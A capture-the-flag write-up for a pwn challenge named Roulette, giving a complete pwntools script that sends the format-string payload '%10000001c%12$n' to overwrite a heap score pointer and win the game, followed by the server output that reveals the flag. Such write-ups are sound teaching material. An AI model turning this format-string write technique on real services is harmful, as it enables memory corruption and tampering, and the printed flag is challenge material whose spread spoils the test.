


# Roulette

**Category**: Pwn



We were given a server(and a sample ELF file), containing a roulette game. If we guess correctly every round & win enough points - we'll get the flag.

# Solution

The intended solution involves integer overflow, insecure PRNG & leaking values using another bug(format string).

However, during the CTF, I found an un-intended pathway to exploit the roulette game & get the flag.

```py
#!/usr/bin/env python
from pwn import *
exe = context.binary = ELF('./roulette.bin')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('challenges.ctfd.io', 30426)
    else:
        return process([exe.path] + argv, *a, **kw)


magic_num   = b'202009'
num_rounds  = b'%10000001c%12$n' # overwriting the 'score' pointer on the heap(12th element), 
                                 # https://www.youtube.com/watch?v=KpXsfimrkFo


# ==============================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil(b'play(Up to 2)?\n')
io.sendline(b'2')
io.recvuntil(b'Choose your bet (1-36)\n')
io.sendline(magic_num)
io.recvuntil(b'you entered the right one):\n')
io.sendline(num_rounds)
io.recvuntil('Won')

io.interactive()
```

The format string payload(in ``num_rounds``) will overwrite the 'score' pointer on the heap with the value ``10000001``, allowing us to affect the ``jle`` instruction(below).



If the jump will not be taken, we will win the game & get the flag.

output from server:
```
You Won!
The Flag is: MCL{I_HOPE_YOU'LL_BE_HAPPY_NOW}
```

(: